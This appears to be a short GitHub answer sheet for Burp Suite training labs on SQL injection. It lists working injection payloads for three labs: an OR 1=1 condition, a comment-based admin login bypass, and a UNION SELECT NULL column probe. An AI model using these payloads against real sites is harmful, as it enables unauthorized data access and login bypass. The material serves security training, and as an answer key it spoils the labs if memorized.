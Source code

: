 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
<img src="images/SQL-1.png">

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
<img src="images/SQL-2.png">

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
<img src="images/SQL-3.png">
